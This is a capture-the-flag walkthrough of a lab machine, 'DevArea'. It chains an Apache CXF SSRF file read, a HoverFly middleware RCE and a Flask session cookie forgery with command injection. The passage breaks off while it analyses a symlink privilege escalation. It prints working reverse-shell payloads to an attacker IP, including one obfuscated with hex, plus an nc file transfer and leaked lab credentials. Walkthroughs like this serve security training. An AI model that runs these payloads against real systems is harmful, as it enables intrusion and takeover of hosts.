<h2 class="highlight_h2">Attack Path</h2>

<div class="path">
    <div class="node">Recon (nmap)</div>
    <div class="node">Anonymous FTP access</div>
    <div class="node">Retrieving a JAR-file. Source code of a SOAP service</div>
    <div class="node">CVE-2022-46364. SSRF via XOP:Include. Read Arbitrary Files</div>
    <div class="node">Discovering HoverFly credentials hardcoded in the systemd service</div>
    <div class="node">Exploiting CVE-2025-54123. Shell as dev_ryan</div>
    <div class="node">Command injection in Syswatch GUI. Shell as syswatch</div>
    <div class="node root">Privilege Escalation via Double Symlink Attack</div>
</div>


## ~$ Recon

<h3 class="highlight_h3">Nmap Scanning</h3>

```bash
└─$ nmap -sV -sC -p- --min-rate=5000 $IP -oN nmap-scan
```
Output:
```bash
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 ftp      ftp          4096 Sep 22  2025 pub
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.211
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 83:13:6b:a1:9b:28:fd:bd:5d:2b:ee:03:be:9c:8d:82 (ECDSA)
|_  256 0a:86:fa:65:d1:20:b4:3a:57:13:d1:1a:c2:de:52:78 (ED25519)
80/tcp   open  http    Apache httpd 2.4.58
|_http-title: Did not follow redirect to http://devarea.htb/
|_http-server-header: Apache/2.4.58 (Ubuntu)
8080/tcp open  http    Jetty 9.4.27.v20200227
|_http-server-header: Jetty(9.4.27.v20200227)
|_http-title: Error 404 Not Found
8500/tcp open  http    Golang net/http server
| fingerprint-strings: 
|   #...
|_    This is a proxy server. Does not respond to non-proxy requests.
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
8888/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Hoverfly Dashboard
# ...
```
Scanning reveals several interesting findings: an <span class="highlight">FTP server with anonymous access</span>, <span class="highlight">a web application on port 80</span>, <span class="highlight">a Jetty server on port 8080</span>, and <span class="highlight">HoverFly on port 8888 + its proxy on port 8500</span>.

Look at <span class="highlight">FTP</span> service with its directory <span class="highlight_filename">pub</span> discovered by <span class="highlight_tools">nmap scanning scripts</span>.

<h3 class="highlight_h3">> FTP</h3>

The <span class="highlight_filename">pub</span> directory contains a single <span class="highlight_filename">JAR-file</span>.



Transfer it to the attack host for further analysis.
```bash
ftp> mget employee-service.jar
```

<span class="highlight_info">[+] employee-service.jar</span>

<h3 class="highlight_h3"> > Source Code Analysis</h3>

<span class="highlight_term">JAR files are Java archives containing compiled bytecode, resources, and metadata</span>

To decompile this <span class="highlight">JAR-file</span>, run <span class="highlight_tools">jadx</span> tool:
```bash
jadx /home/netgl1tch/htb/devarea/jar-archive/employee-service.jar \
-d /home/netgl1tch/htb/devarea/jar-archive
```

This creates two directories -> <span class="highlight">sources</span> and <span class="highlight">resources</span>.

```bash
└─$ tree jar-archive -L 2                   
jar-archive
├── resources
│   ├── about.html
│   ├── com
│   ├── htb
│   ├── javax
│   ├── jetty-dir.css
│   ├── META-INF
│   ├── mozilla
│   ├── org
│   ├── OSGI-INF
│   └── schemas
└── sources
    ├── com
    ├── htb
    ├── javax
    └── org
```
The source code is placed within <span class="highlight">sources/htb/devarea</span> directory:



<span class="highlight">ServerStarter.java</span> confirms that the app runs on port 8080 which was exposed externally as <span class="highlight_tools">nmap</span> revealed earlier.

```bash
package htb.devarea;

import org.apache.cxf.jaxws.JaxWsServerFactoryBean;

/* JADX INFO: loaded from: employee-service.jar:htb/devarea/ServerStarter.class */
public class ServerStarter {
    public static void main(String[] args) {
        JaxWsServerFactoryBean factory = new JaxWsServerFactoryBean();
        factory.setServiceClass(EmployeeService.class);
        factory.setServiceBean(new EmployeeServiceImpl());
        factory.setAddress("http://0.0.0.0:8080/employeeservice");
        factory.create();
        System.out.println("Employee Service running at http://localhost:8080/employeeservice");
        System.out.println("WSDL available at http://localhost:8080/employeeservice?wsdl");
    }
}
```
The <span class="highlight">JaxWsServerFactoryBean</span> is an Apache CXF class used to configure and launch a SOAP server . <span class="highlight">setServiceClass</span> takes the service interface, which defines the WSDL contract. <span class="highlight">setServiceBean</span> provides the implementation that handles incoming requests.

The contract's source code is the following:
```java
package htb.devarea;

import javax.jws.WebService;

/* JADX INFO: loaded from: employee-service.jar:htb/devarea/EmployeeService.class */
@WebService(name = "EmployeeService", targetNamespace = "http://devarea.htb/")
public interface EmployeeService {
    String submitReport(Report report);
}
```
The interface declares a single SOAP operation -> <span class="highlight">submitReport</span>.

<span class="highlight">EmployeeServiceImpl</span> contains the business logic:

```java
package htb.devarea;

/* JADX INFO: loaded from: employee-service.jar:htb/devarea/EmployeeServiceImpl.class */
public class EmployeeServiceImpl implements EmployeeService {
    @Override // htb.devarea.EmployeeService
    public String submitReport(Report report) {
        String str;
        if (report.isConfidential()) {
            str = "Report marked confidential. Thank you, " + report.getEmployeeName();
        } else {
            str = "Report received from " + report.getEmployeeName();
        }
        String greeting = str;
        return greeting + ". Department: " + report.getDepartment() + ". Content: " + report.getContent();
    }
}
```

The <span class="highlight">Report</span> class realization is:

```java
package htb.devarea;

/* JADX INFO: loaded from: employee-service.jar:htb/devarea/Report.class */
public class Report {
    private String employeeName;
    private String department;
    private String content;
    private boolean confidential;

    public String getEmployeeName() {
        return this.employeeName;
    }

    public void setEmployeeName(String employeeName) {
        this.employeeName = employeeName;
    }

    public String getDepartment() {
        return this.department;
    }

    public void setDepartment(String department) {
        this.department = department;
    }

    public String getContent() {
        return this.content;
    }

    public void setContent(String content) {
        this.content = content;
    }

    public boolean isConfidential() {
        return this.confidential;
    }

    public void setConfidential(boolean confidential) {
        this.confidential = confidential;
    }

    public String toString() {
        return "Report{employeeName='" + this.employeeName + "', department='" + this.department + "', content='" + this.content + "', confidential=" + this.confidential + '}';
    }
}
```

Version of Apache CXF:
```bash
cat resources/META-INF/maven/org.apache.cxf/cxf-core/pom.properties 
```
Output:
```bash
#Generated by org.apache.felix.bundleplugin
#Tue Sep 16 21:03:07 WEST 2025
version=3.2.14
groupId=org.apache.cxf
artifactId=cxf-core
```

<span class="highlight_info">[+] Apache CXF version 3.2.14 -> VULNERABLE</span>

<h3 class="highlight_h3">> Vulnerable version Apache CXF</h3>

In short, the target runs a SOAP service on port 8080 using <span class="highlight_tools">Apache CXF</span> <span class="highlight">3.2.14</span>, which is affected by <span class="highlight_cve">CVE 2022-46364</span>.

The vulnerability lies in how the href attribute of the <span class="highlight">XOP:Include</span> element is parsed within MTOM requests. If the server accepts at least one parameter of any type, an attacker can supply a <span class="highlight">file://</span> URI to trigger SSRF and read arbitrary local files.
MTOM (Message Transmission Optimization Mechanism) is a SOAP extension designed for efficient transfer of binary data such as images or files.

By exploiting this flaw, we can read arbitrary files from the server via <span class="highlight">file://</span> URIs.

The <span class="highlight_tools">SoapUI</span> was used to construct a request.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<soapenv:Envelope 
  xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"
  xmlns:tns="http://devarea.htb/">
  <soapenv:Header/>
  <soapenv:Body>
    <tns:submitReport>
      <arg0>
        <confidential>false</confidential>
        <content>content</content>
        <department>IT</department>
        <employeeName>John</employeeName>
      </arg0>
    </tns:submitReport>
  </soapenv:Body>
</soapenv:Envelope>
```


To send request and receive a decoded response I used <span class="highlight_link"><a href="#script_cve-2022-46364">this bash-script</a></span>

The <span class="highlight_filename">/etc/passwd</span> file contains only one system user -> <span class="highlight_username">dev_ryan</span>:
```bash
./get_response.sh "/etc/passwd" | grep "/bin/bash"
```

List <span class="highlight_username">dev_ryan's</span> home directory.


We can not read <span class="highlight_filename">user.txt</span> flag for a while because this server runs by another user.

Attempting to list <span class="highlight_filename">/opt</span> directory leads to discovering interesting software:
```bash
└─$ ./get_response.sh "/opt"               
/opt
EmployeeService
HoverFly
syswatch
```


Listing <span class="highlight">syswatch</span> directory is not permitted.

Check the systemd services. List <span class="highlight_filename">/etc/systemd/system</span> directory, we'll get the following output:
```bash
└─$ ./get_response.sh "/etc/systemd/system"                           
```
The hoverfly service is here:
```bash
hoverfly.service
```
Reading the Hoverfly systemd service file reveals credentials passed directly as command-line arguments.



<span class="highlight_info">[+] HoverFly creds -> admin : O7IJ27MyyXiU</span>

The directory also contains two syswatch-related service files: <span class="highlight_filename">/etc/systemd/system/syswatch-web.service</span> and <span class="highlight_filename">/etc/systemd/system/syswatch-monitor.service</span>.

The web service runs as the <span class="highlight_username">syswatch</span> user, while the monitor service runs as <span class="highlight_username">root</span>.

## ~$ Foothold # Shell as dev_ryan

The Hoverfly service allocates two ports:

- 8888 -> web interface of HoverFly

- 8500 -> HoverFly's proxy server

HoverFly runs as the system user <span class="highlight_username">dev_ryan</span> . 

Visit <span class="highlight_link">http://devarea.htb:8888/</span>.

We are immediately redirected to the login page where we use the discovered creds.

After logging in, the dashboard reveals the application version -> <span class="highlight">v1.11.3</span>.



<span class="highlight_info">[+] HoverFly version -> 1.11.3</span>

Further research uncovers a relevant vulnerability -> [github advisory](https://github.com/advisories/GHSA-r4h8-hfp2-ggmf).

<span class="highlight_cve">CVE-2025-54123</span> enables remote code execution.

The vulnerability exists in <span class="highlight_filename">/api/v2/hoverfly/middleware</span> endpoint. 

In short, we can pass two parameters (binary and script) via PUT-request on <span class="highlight_filename">/api/v2/hoverfly/middleware</span> endpoint -> These user-controlled parameters are not sanitized before being passed directly to `exec.Command()`. Hoverfly executes the command immediately as part of its middleware testing mechanism.

In Burp Suite, capture a request to the middleware endpoint and send it to Repeater.


This gives us a reverse shell as <span class="highlight_username">dev_ryan</span>.
```json
{
    "binary": "/bin/bash",
    "script": "bash -i >& /dev/tcp/10.10.14.211/6666 0>&1"
}
```

After stabilizing the shell, we move on to privilege escalation.


<span class="highlight_info">[+] /home/dev_ryan/user.txt</span>

## ~$ Privilege Escalation

<span class="highlight_username">dev_ryan's</span> home directory contains <span class="highlight_filename">syswatch-v1.zip</span> archive which corresponds to the <span class="highlight">syswatch</span> service.

Additionaly, <span class="highlight_username">dev_ryan</span> user can execute <span class="highlight_filename">syswatch.sh</span> script as root via <span class="highlight_tools">sudo</span>.

Transfer this archive to the attack host:
```bash
dev_ryan@devarea:~$ nc 10.10.14.211 3333 < syswatch-v1.zip
```




Earlier we found other software in the <span class="highlight_filename">/opt</span> directory called <span class="highlight_tools">syswatch</span>.

Syswatch web interface runs on port 7777. It can be found in the source code. `netstat -tulpn` can also confirms this.

To interact with web app on our attack host -> perform pivoting with <span class="highlight_tools">ligolo-ng</span> and visiting syswatch web GUI on port 7777.



The `/etc` directory contains a configuration file with environment variables.

```bash
cat /etc/syswatch.env
```



<span class="highlight_info">[+] Syswatch Evironment Variables -> SYSWATCH_SECRET_KEY, SYSWATCH_ADMIN_PASSWORD</span>

However, this password does not work for the admin account.
 
The Syswatch web interface is built with <span class="highlight_tools">Flask</span> and uses signed session cookies.

The session contains two fields: <span class="highlight">user_id</span> and <span class="highlight">username</span>. 
```python
@app.route("/login", methods=["GET", "POST"])
def login():
    #...
        if row and check_password_hash(row[1], password):
            session["user_id"] = row[0]
            session["username"] = username
            return redirect(url_for("index"))
        return render_template("login.html", error="Invalid credentials", version=APP_VERSION)
    if session.get("user_id"):
        return redirect(url_for("index"))
    return render_template("login.html", version=APP_VERSION)
```
The `require_login()` function only checks for the presence of <span class="highlight">user_id</span> field within a session token.
```python
def require_login():
    if not session.get("user_id"):
        return redirect(url_for("login"))
```

<h3 class="highlight_h3">> Forge JWT token</h3>

Forge a valid session cookie for the admin user:
```bash
flask-unsign -S 'f3ac48a6006a13a37ab8da0ab0f2a3200d8b3640431efe440788beaefa236725' -s -c '{"user_id": 1, "username": "admin"}'
```

`-S` specifies the secret key used to sign the session token. The secret was found in <span class="highlight_filename">/etc/syswatch.env</span> file.

Add this token in the cookie and reload the main page.



<h3 class="highlight_h3">> Command Injection</h3>
The app has an endpoint that executes system commands on the host.


This code snippet checks whether the service accepted by user is valid and if it is -> the service is passed to the command in the try-except construction:
```python
if not service or not SAFE_SERVICE.match(service):
    error = "Invalid service name"
else:
    try:
        res = subprocess.run([f"systemctl status --no-pager {service}"], shell=True,capture_output=True, text=True, timeout=10)
        output = res.stdout if res.stdout else res.stderr
    except Exception as e:
        error = str(e)
```
The following regex is applied to the service parameter:
```python
SAFE_SERVICE = re.compile(r"^[^;/\&.<>\rA-Z]*$")
```
This disallows several symbols:

- `;`

- `/`

- `&`

- `.`

- `<`

- `>`

- `\r`

- uppercase letters (`A-Z`)

The newline character (`\n`) is not blacklisted. Since `subprocess.run` is called with `shell=True`, injecting newline symbol terminates the first command and allows arbitrary commands to follow.

The following command returns a reverse shell to the attack host:
```bash
service=ssh%0a bash -c "bash -i $(echo -n 3e | xxd -r -p)$(echo -n 26 | xxd -r -p) $(echo -n 2f | xxd -r -p)dev$(echo -n 2f | xxd -r -p)tcp$(echo -n 2f | xxd -r -p)10$(echo -n 2e | xxd -r -p)10$(echo -n 2e | xxd -r -p)14$(echo -n 2e | xxd -r -p)211$(echo -n 2f | xxd -r -p)5555 0$(echo -n 3e | xxd -r -p)$(echo -n 26 | xxd -r -p)1"
```





<h3 class="highlight_h3">> Double Symlink Attack</h3>

The <span class="highlight_username">syswatch</span> user has write permissions on the logs and backup directories.


```bash
syswatch@devarea:~$ ls -la
total 44
drwxr-xr-x+ 8 root     root     4096 Mar 22 18:55 .
drwxr-xr-x  5 root     root     4096 Mar 22 18:55 ..
drwxr-xr-x  2 syswatch syswatch 4096 Mar 22 18:55 backup
drwxr-xr-x  2 root     root     4096 Mar 22 18:55 config
drwxr-xr-x  2 syswatch syswatch 4096 Mar 22 18:55 logs
-rwxr-xr-x  1 root     root      265 Dec 12  2025 monitor.sh
drwxr-xr-x  2 root     root     4096 Mar 22 18:55 plugins
drwxr-xr-x  4 root     root     4096 Mar 22 18:55 syswatch_gui
-rwxr-xr-x  1 root     root     6103 Dec 14  2025 syswatch.sh
drwxr-xr-x  5 root     root     4096 Mar 22 18:55 venv
```

The <span class="highlight_filename">syswatch.sh</span> script exposes several subcommands, which <span class="highlight_username">dev_ryan</span> can run as root.
```sh
main() {
    case "${1:-}" in
        web) start_web ;;
        web-stop) stop_web ;;
        web-restart|web-reload) reload_web ;;
        web-status) status_web ;;
        plugin) shift; execute_plugin "$@" ;;
        plugins) list_plugins ;;
        logs) shift; view_logs "$@" ;;
        --version) echo "$VERSION" ;;
        help|--help|-h) usage ;;
        *)
            usage
            ;;
    esac
}
```

One of the available subcommands is logs, which calls the view_logs function.

The <span class="highlight">view_logs</span> function includes this code snippet:

```bash
# FILE NAME VALIDATION
local file="${arg:-system.log}"
if [[ ! "$file" =~ $SAFE_LOG_REGEX ]]; then
    echo "[Invalid log filename]: $file"
    return 1
fi

local path="$LOG_DIR/$file"
if [ -L "$path" ]; then
    local target
    target=$(ls -l "$path" | awk '{print $NF}')

    if [[ "$target" == *"/"* || "$target" == *".."* || "$target" == *"\\"* ]]; then
        echo "[Blocked unsafe symlink target]: $file -> $target"
        return 1
    fi

    if [[ "$target" =~ ^[A-Za-z0-9_.-]+$ ]]; then
        local resolved="$LOG_DIR/$target"
        if [ -f "$resolved" ]; then
            cat "$resolved"
            return
        else
            echo "[Symlink target not found]: $file -> $target"
            return 1
        fi
    fi
#....
```
`if [ -L "$path" ]; then` -> `-L` flag checks whether the file is a symlink.

`target=$(ls -l "$path" | awk '{print $NF}')` -> `$NF` points to display the last word.

`if [[ "$target" == *"/"* || "$target" == *".."* || "$target" == *"\\"* ]]; then` -> checks path traversal.

